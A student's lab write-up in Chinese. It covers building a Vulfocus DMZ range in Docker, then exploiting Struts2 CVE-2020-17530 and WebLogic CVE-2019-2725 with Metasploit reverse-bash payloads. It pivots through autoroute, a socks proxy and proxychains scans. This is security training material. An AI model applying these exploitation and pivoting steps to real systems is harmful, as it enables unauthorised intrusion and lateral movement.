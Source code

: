 ## 网安实践实验

### 安装docker
根据教学wiki给出的视频链接，可以进入GitHub进行虚拟机的配置，下面是命令：
```bash
#将软件源信息写入list文件，使 APT 可以从这个源安装 Docker 相关软件
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | \
sudo tee /etc/apt/sources.list.d/docker.list 

#使用 curl 命令下载 Docker 官方的 GPG 公钥，将GPG 公钥从文本格式转换为二进制格式，用以验证 Docker 软件包的签名，确保软件包来源可信
  curl -fsSL https://download.docker.com/linux/debian/gpg |
  sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

#安装 Docker 及相关组件
  sudo apt update
  sudo apt install -y docker-ce docker-ce-cli containerd.io
```

### vulfocus环境搭建
* docker版本检测
首先在虚拟机里面拉取docker镜像，使用命令进行docker版本检测
```bash
docekr --version
```
![](./image/docker版本检测.png)

* 将git里面的文件克隆到kali虚拟机里面，使用bash语句开始脚本
![](./image/克隆和部署.png)

使用主机访问Vulfocus，访问地址：宿主机HostOnly IP地址：80
![](./image/vlifocus搭建完成.png)

在左侧菜单中的镜像管理下，我们进入之后点击右上角的”一键同步“，vulfocus会去访问它自己的服务器，去拉取当前所有可用的漏洞复现环境的地址，之后我们便可以在此页面下搜索我们想要使用的漏洞复现的环境进行下载、启动。
![](./image/同步.png)

### DMZ环境搭建
在Vulfocus基础上进行操作

#### 网卡创建
首先根据下面步骤创建两个网卡，网卡名随意，子网和网关不和虚拟机网卡重复即可
![](./image/添加网卡.png)

#### DMZ场景编排
在ctf-games/fofapro/vulfocus文件下使用ls指令确定是否有DMZ.zip
![](./image/确定DMZ压缩包.png)
然后使用下面的指令进行解压缩
```bash
unzip DMZ.zip
```
对DMZ.zip解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

可以直接通过对 raw-content.json这个文件格式化查看，也可以通过 jq和 grep查找需要的内容。

首先确定需要的镜像有哪些：
```bash
cat raw-content.json | jq . | grep image_name
```
即查看文件中与 image_name相关的内容有哪些：
![](./image/确定需要的镜像.png)

可知需要安装是三个不同的镜像文件：
```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```
其中第一个镜像存在运行问题，需要替换为:
```
c4pr1c3/vulshare_nginx-php-flag
``` 
我们使用的是docker pull的方法进行的镜像拉取
完成拉取以后，可以进行页面编排了，编排出的信息如下：

![](./image/环境编排.png)

完成编排以后保存发布我们就可以进行场景的启动了
![](./image/启动场景.png)
需要注意的是启动场景给出的访问地址要改成我们自己的靶机IP。

#### 流量捕获配置
启动场景以后，我们要根据下面的命令开启对struts2-cve_2020_17530的流量捕获
```bash
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


### DMZ入口靶标
入口靶标页面如下：注意记录IP和端口号
![](./image/页面.png)

进入攻击机，更新并初始化 metasploit
```bash
sudo apt install -y metasploit-framework
sudo msfdb init
```
进入数据库，检查数据库连接情况并创建工作区准备攻击：
```bash
db_status
workspace - a vulfoucus
```

由于已经知道了漏洞为 struts2代码执行漏洞，所以进行相关搜索搜索：

```bash
search struts2 type:exploit
search S2-059 type:exploit
```
使用 info可以指定序号或名称查看详情
```bash
info 0
```
使用 use可以使用指定的exp
```bash
use 0
```
使用 show options可以查看exp的详细参数配置,使用 show payloads可以查看可用 exp payloads：
```bash
show options
show payloads
```
![](./image/查看exp参数配置.png)

选择一个需要的 payload使用并根据参数列表的内容修改靶机和攻击机的参数:
```bash
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.206.4   #靶机IP
set RPORT  23068    #靶机目标端口  
set LHOST  192.168.242.7   #攻击者主机IP 
```
![](./image/修改参数.png)

执行攻击，如果攻击成功可以获得靶机的shell：
```bash
run -j
```
使用 sessions命令查看列表，打开 shell执行命令
```bash
sessions -l
sessions -i 2
```
![](./image/得到flag.png)
可以得到flag

### 建立立足点发现靶标2、3、4

在刚才的基础上，使用ctrl^z将session放入后台
对要攻击的目标进行扫描：
```bash
db_nmap -p 60990,80,22 192.168.206.4 -A -T4 -n
```
然后查看hosts和services情况，将shell升级为Meterpreter Shell
![](./image/查看升级后的shell网络.png)
发现入口靶机的内部地址为 192.170.84.3并且发现有一个新的网段 192.170.84.0/24
接下来返回工作台，执行下面命令并查看建立的结果：
```bash
run autoroute -s 192.170.84.0/24
run autoroute -p
```
![](./image/创建新的路由并查看结果.png)
退出当前的session准备端口扫描：

首先搜索需要的模块，然后选择需要使用的模块
```bash
search portscan
use auxiliary/scanner/portscan/tcp
```
![](./image/搜索并选择需要的模块.png)

和之前一样要进行参数的配置：
```bash
set RHOSTS 192.170.84.2-254 #根据之前的内网网关ip为192.170.84.1推断其他的ip一定是介于2到254
set PORTS 7001 #为了加快扫描速度指定扫描端口为7001，这里也可以不指定，但会慢很多
set THREADS 10 #多线程加快扫描速度
```
![](./image/使用exploit启动扫描.png)

新扫描到的 ip 被同步到了 hosts与 services表中,然后搜索并使用另外一个 socks_proxy 模块,参数不用做修改
![](./image/搜索socks_proxy模块.png)

直接启动l然后在攻击机中另开一个 shell: 先检查下 1080 端口服务开放情况：
```bash
sudo lsof -i tcp:1080 -l -n -P
```
确定端口开放正常后，对下面的配置文件进行编辑，在其最后修改 socks 代理为 socks5 127.0.0.1 1080 
```bash
sudo vim /etc/proxychains4.conf
```
![](./image/修改sock代理.png)

然后执行下面的命令对内网进行扫描：
```bash
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```
![](./image/进行内网扫描.png)

可以看到扫描到的结果均为 filter (过滤)

下面需要去验证这些断后是否针对能连通： 进入入口机的 shell 当中，执行下面的 curl命令获取指定的内网网页内容：
```bash
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.4:7001 -vv
curl http://192.170.84.5:7001 -vv
```
### 攻击内网第一层靶标
确认内网第一层靶标的目标后，和之前对入口靶标攻击一样，这里由于已经知道了具体的漏洞类型，所以可以直接搜索具体的类型进行攻击：
```bash
search cve-2019-2725
use 0
show options
```
![](./image/靶标-1.png)

修改其中的参数，将 RHOSTS 与 LHOST 进行修改,使用的 payload 还和入口靶标一样，是 reverse_bash（反弹shell），不需要修改
![](./image/修改靶标1参数.png)